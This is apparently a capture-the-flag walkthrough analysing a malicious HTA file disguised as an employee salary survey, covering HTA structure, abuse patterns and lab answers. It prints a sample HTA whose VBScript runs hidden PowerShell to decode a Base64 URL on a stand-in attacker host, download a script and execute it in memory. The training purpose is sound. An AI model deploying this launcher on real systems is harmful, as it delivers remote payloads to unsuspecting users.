# Room Name: Malware Analysis - Malhare.exe



In our kingdom of Wareville, just like in others, thousands of files of all kinds pass through the systems every day. These range from DOCX and PDF resumes received by our elves to financial spreadsheets, CSVs from the accounting department, and executable files launched by different applications. But have you ever wondered which of these might be malicious? Which ones could actually belong to King Malhare? An interesting question, isn't it?

In today's task we will investigate one specific file type: the HTA format. This is a type often used for legitimate purposes, yet just as frequently exploited by attackers.

We need to reverse engineer the HTA file to understand its functionality and identify any potential malicious activities.

**Important:** We are using an HTA malware file. Do NOT run it locally on your system.
You SHOULD use the Attackbox which already has the file present in it.

IF you were to download it manually, open it only in a text editor, do NOT run it.

Let's boot the Attackbox and start our analysis.

## Malware Analysis

### HTA Overview

Not long ago, in the summer of 2025, researchers discovered that ransomware groups were using HTA files disguised as fake verification pages to spread the Epsilon Red ransomware. During that campaign, many organisations were affected, and security teams were reminded how important it is to understand what HTA files are, and why they appear so often in corporate environments.

So, what exactly are HTA files, and why do they exist? In Wareville's digital kingdom, not every strange-looking file is a threat. Some were originally created to make the daily work of developers and administrators easier. One such helpful invention is the HTA file, short for HTML Application. An HTA file is like a small desktop app built using familiar web technologies such as HTML, CSS, and JavaScript. Unlike regular web pages that open inside a browser, HTA files run directly on Windows through a built-in component called Microsoft HTML Application Host, the mshta.exe process. This allows them to look and behave like lightweight programs with their own interfaces and actions. In legitimate use cases, HTA files serve several practical purposes in Wareville and beyond:

*   Automating administrative or setup tasks.
*   Providing quick interfaces for internal scripts.
*   Testing small prototypes without building full software.
*   Offering lightweight IT support utilities for daily use.

In short, HTA files were designed as a convenient way to blend the simplicity of the web with the power of desktop applications. This is a tool that many TBFC engineers and elves still use to keep SOC-mas operations running smoothly.

### HTA File Structure

An HTA file usually contains three main parts:

1.  **The HTA declaration:** This defines the file as an HTML Application and can include basic properties like title, window size, and behavior.
2.  **The interface (HTML and CSS):** This section creates the layout and visuals, such as buttons, forms, or text.
3.  **The script (VBScript or JavaScript):** Here is where the logic lives; it defines what actions the HTA will perform when opened or when a user interacts with it.

Here's a simple example of what a legitimate HTA file might look like:

```html
<html>
<head>
    <title>TBFC Utility Tool</title>
    <HTA:APPLICATION 
        ID="TBFCApp"
        APPLICATIONNAME="Utility Tool"
        BORDER="thin"
        CAPTION="yes"
        SHOWINTASKBAR="yes"
    />
</head>

<body>
    <h3>Welcome to the TBFC Utility Tool</h3>
    <input type="button" value="Say Hello" onclick="MsgBox('Hello from Wareville!')">
</body>
</html>
```

This small example creates a simple desktop window with a button that shows a message when clicked. In real cases, HTA scripts can be much longer and perform important tasks. It's easy to see why developers liked HTA; you could build a quick, functional tool using nothing more than web code. However, as TBFC's defenders will soon learn, the same flexibility that makes HTA convenient also makes it powerful enough to require careful attention.

### How King Malhare Turns HTAs Into Weapons

HTA files are attractive because they combine familiar web markup with script execution on Windows. In the hands of a defender, they are a handy automation tool; in the hands of someone wanting to bypass controls, they can be used as a delivery mechanism or launcher.

Common purposes of malicious HTA use:

*   **Initial access/delivery:** HTA files are often delivered by phishing (email attachments, fake web pages, or downloads) and run via mshta.exe.
*   **Downloaders/droppers:** An HTA can execute a script that fetches additional binaries or scripts from the attacker's command and control (C2) server.
*   **Obfuscation/evasion:** HTAs can hide intent by embedding encoded data (like Base64), by using short VBScript/JScript fragments, or by launching processes with hidden windows.
*   **Living-off-the-land:** HTA commonly calls built-in Windows tools (mshta.exe, powershell.exe, wscript.exe, rundll32.exe) to avoid adding new binaries to disk.

Inside an HTA, you'll often find a small script that may be obfuscated or encoded. In practice, this tiny script usually does one of two things: downloads and runs a second-stage payload, or opens a remote control channel to let something else talk back to the attacker's server. These lightweight scripts are the reason HTAs are effective launchers. A single small file can pull in the rest of the malware.

Here is a sample that King Malhare might try to use:

```html
<html>
  <head>
    <title>Angry King Malhare</title>
    <HTA:APPLICATION ID="Malhare" APPLICATIONNAME="B" BORDER="none" 
     SHOWINTASKBAR="no" SINGLEINSTANCE="yes" WINDOWSTATE="minimize">
    </HTA:APPLICATION>
    <script language="VBScript">
      Option Explicit:Dim a:Set a=CreateObject("WScript.Shell"):Dim 
      b:b="powershell -NoProfile -ExecutionPolicy Bypass -Command "" 
      {$U=
      [System.Text.Encoding]::UTF8.GetString([System.Convert]::
      FromBase64String('aHR0cHM6Ly9yYXcua2luZy1tYWxoYXJlWy5dY29tL2MyL3NpbHZlci9yZWZzL2hlYWRzL21haW4vUkVEQUNURUQudHh0')) 
      $C=(Invoke-WebRequest -Uri 
      $U -UseBasicParsing).Content 
      $B=[scriptblock]::Create($C) $B}""":a.Run 
      b,0,True:self.close
    </script>
  </head>
  <body>
  </body>
</html>
```

When analyzing HTAs, the `<title>` and `HTA:APPLICATION` tags often reveal how attackers disguise malicious apps. They might use a convincing name like 'Salary Survey' or 'Internal Tool' to appear safe. Always check these first.

Secondly, there is a VBScript block marked by `<script language="VBScript">`. That is the active part of the file where attackers often embed encoded commands or call external resources. Inside this block we find a PowerShell command `b:b="powershell -NoProfile -ExecutionPolicy Bypass -Command"`, a pattern commonly seen in malicious HTAs used for delivery or launching. The PowerShell invocation contains a Base64-encoded blob `FromBase64String`. This is likely a pointer to further instructions or a downloaded payload. If you see an encoded string, assume it hides a URL. Decoding it reveals the attacker's command-and-control (C2) address or a resource used in the attack. Always decode before assuming what it does.

Malware authors often use multiple layers of encoding and encryption such as Base64 for obfuscation or some form of cipher to conceal the true payload. When you decode the Base64, check whether the output still looks like gibberish; if so, a second decryption step is needed.

For analysis, we can extract that Base64 code: `aHR0cHM6Ly9yYXcua2luZy1tYWxoYXJlWy5dY29tL2MyL3NpbHZlci9yZWZzL2hlYWRzL21haW4vUkVEQUNURUQudHh0` and inspect it with a tool like CyberChef to reveal what it hides.



In a real incident, that string would usually point directly to a file hosted on the attacker's C2 domain (for example, a URL under king-malhare[.]com in our SOC-mas story).

After the encoded PowerShell command, we can see three key variables: `$U`, `$C`, and `$B`.
*   `$U`: Holds the decoded URL, the location from which the next script or payload will be fetched.
*   `$C`: Stores the content downloaded from that URL, usually a PowerShell script or text instructions.
*   `$B`: Converts that content into an executable scriptblock and runs it directly in memory.

The process for reviewing a suspicious HTA can be broken down into three main steps:
1.  Identify the scripts section (VBScript).
2.  Look for encoded data or external connections (e.g., Base64, HTTP requests).
3.  Follow the logic to see what is executed or being sent out.

### From Surveys to Security Failings

Our team figured out that some of the elves' laptops were compromised. Working through the incident, it seems that the one common denominator between them all is a survey that they completed regarding their salaries. The investigation found that an email was sent to these elves with an HTA attachment.

We need to review this HTA file to see what it does.

On the Attackbox, we have our HTA file in the `/root/Rooms/AoC2025/Day21/survey.hta` directory.

Let's open it with a text editor and see what it does.

```
pluma /root/Rooms/AoC2025/Day21/survey.hta
```



In our HTA, we can see 5 functions:

*   `window_onLoad`: This function will automatically execute when the HTA loads and executes the `getQuestions()` function.
*   `getQuestions()`: This function makes some external requests and then ultimately runs the `decodeBase64` function and calls the `provideFeedback` function with the data.
*   `provideFeedback(feedbackString)`: This function gathers some data about the computer, makes some external requests, and then ultimately executes something we still need to analyze.
*   `decodeBase64(base64)`: This function takes in a base64 string and converts it into binary.
*   `RSBinaryToString(xBinary)`: This function takes binary input and converts it back into a string.

Within these functions, we want to understand any real actions being performed. These are usually denoted by `CreateObject()` calls, with our application containing a couple, such as:

*   `InternetExplorer.Application`: Allows the application to make an external connection.
*   `WScript.Network`: Connects to the computer's WScript Networking elements to uncover information.
*   `WScript.Shell`: Creates a WScript shell that can be used to execute commands on the computer.

Let's go through each question.

**Question 1:** We can find the answer by examining the title tag of the HTA file.



**Question 2:** We discussed functions earlier and just by name we know which one is acting as if it is downloading the survey questions.



**Question 3:** For the URL from which the 'questions' are being downloaded, we can find it in the function we identified above.

**Question 4:** For the typosquatting, if you look carefully you can see that the URL contains a typo and is pointing to an unknown site.

**Question 5:** If you scroll down the HTA code, you will find a div tag with the id 'questions' and it contains the questions.


**Question 6:** If you scroll further down, you will find a line below the "Thank you for your feedback" line and it contains a fake incentive to win a trip.



**Question 7:** In the function `provideFeedback`, we can see that it is exfiltrating two pieces of information from the host system.



**Question 8:** The endpoint to which the data is being sent is mentioned in the `provideFeedback` function in the URL.

**Question 9:** We see only URL parameters in the `provideFeedback` function. No headers or body is being sent, so that means it is a GET request.

**Question 10:** Here we need to identify the line of code that executes the contents of the download. Again, in the `provideFeedback` function we can see that it is using the `Set runObject` to execute the contents of the download.



**Question 11:** The malware site has been taken down, so we cannot download the contents that the malware was executing. However, we are provided a text file and we need to find the encoding scheme used in an attempt to obfuscate the contents of the download. If we were to check the encoded content using the 'Magic' operation in CyberChef, we can identify the encoding.



**Question 12:** If we decode it using the encoding we found, we can see the following.



Upon inspection, we can see that the script contains a section of text that appears to be further obfuscated. The script includes logic to process this text before output. By analyzing the transformation logic within the script, we can determine the specific cipher being used to decrypt this final piece of data. The method involves shifting character values within a defined range.


**Question 13:** Let's execute the PowerShell script.



And we have our flag.

**Conclusion**

This practical investigation of a malicious HTA file demonstrates how attackers leverage seemingly legitimate file formats to deliver payloads. By disguising malware as a common workplace document, in this case an employee survey, threat actors can bypass user suspicion and initial security checks.

The analysis followed a structured approach to reverse engineer the file's behavior, from initial script inspection to uncovering obfuscated code and tracing its execution flow. Key techniques observed included the use of living off the land binaries, encoded commands, and external resource calls to retrieve and execute additional stages of the attack.

This exercise reinforces the importance of static analysis in malware investigation, showing that even files with innocent appearances can contain harmful scripts. It also highlights the value of understanding scripting languages and common obfuscation methods when examining suspicious files in a security operations context.




Thanks for reading my walkthrough!

Keep learning and stay safe!